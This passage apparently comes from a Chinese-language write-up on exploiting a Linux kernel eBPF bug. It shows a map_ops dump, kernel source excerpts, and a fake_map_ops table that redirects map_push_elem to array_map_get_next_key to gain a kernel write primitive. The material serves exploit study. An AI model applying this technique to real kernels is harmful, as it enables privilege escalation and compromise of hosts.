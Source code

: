 ```
  map_fd_sys_lookup_elem = 0x0 &lt;fixed_percpu_data&gt;,
  map_seq_show_elem = 0xffffffff8116ee80 &lt;array_map_seq_show_elem&gt;,
  map_check_btf = 0xffffffff8116f870 &lt;array_map_check_btf&gt;,
  map_poke_track = 0x0 &lt;fixed_percpu_data&gt;,
  map_poke_untrack = 0x0 &lt;fixed_percpu_data&gt;,
  map_poke_run = 0x0 &lt;fixed_percpu_data&gt;,
  map_direct_value_addr = 0xffffffff8116ece0 &lt;array_map_direct_value_addr&gt;,
  map_direct_value_meta = 0xffffffff8116ed10 &lt;array_map_direct_value_meta&gt;,
  map_mmap = 0xffffffff8116ee50 &lt;array_map_mmap&gt;
}
```

`map_push_elem` 会在 `map_update_elem` 的时候被调用, 它需要map 的类型是`BPF_MAP_TYPE_QUEUE`或者`BPF_MAP_TYPE_STACK`, 但是没有关系， map 上的任何内容都可以用 `r7` 来改，把`map_type` 改成`BPF_MAP_TYPE_STACK` (0x17)之后，每次调用`map_update_elem`时, 就会调用`map_push_elem`

```
static int bpf_map_update_value(struct bpf_map *map, struct fd f, void *key,  
                void *value, __u64 flags)                                     
{                                                                             
//...                    
    } else if (map-&gt;map_type == BPF_MAP_TYPE_QUEUE ||     
        ¦  map-&gt;map_type == BPF_MAP_TYPE_STACK) {         
        err = map-&gt;ops-&gt;map_push_elem(map, value, flags); 
//..
```

在 `fake_ops` 上, 我们把`map_push_elem` 改成`map_get_next_key` 一样的地址， 这里实际的`map_get_next_key`是函数`array_map_get_next_key`

```
uint64_t fake_map_ops[]={

    kaslr +0xffffffff8116ec70,                 
    kaslr +0xffffffff8116fa00,                 
    0x0,                                       
    kaslr +0xffffffff8116f2d0,                 
    kaslr +0xffffffff8116ed50,// 5: map_get_next_key  
    0x0,                                       
    //...                
    kaslr +0xffffffff8116ed80,                 
    kaslr +0xffffffff8116ed50,//15: map_push_elem 
    0x0,                                       
    0x0,                                       
    //...                
}
```

`array_map_get_next_key` 实现在`kernel/bpf/arraymap.c#L279` 上， 传递给`map_push_elem` 的参数是`value`(ring3 要update的数据)和 `uattr` 的 flags, 分别对应`array_map_get_next_key` 的 `key` 和 `next_key` 参数

```
static int array_map_get_next_key(struct bpf_map *map, void *key, void *next_key)   
{                                                                                   
    struct bpf_array *array = container_of(map, struct bpf_array, map);             
    u32 index = key ? *(u32 *)key : U32_MAX;                                        
    u32 *next = (u32 *)next_key;                                                    

    if (index &gt;= array-&gt;map.max_entries) {    //index                                      
        *next = 0;                                                                  
        return 0;                                                                   
    }                                                                               

    if (index == array-&gt;map.max_entries - 1)                                        
        return -ENOENT;                                                             

    *next = index + 1;                                                              
```
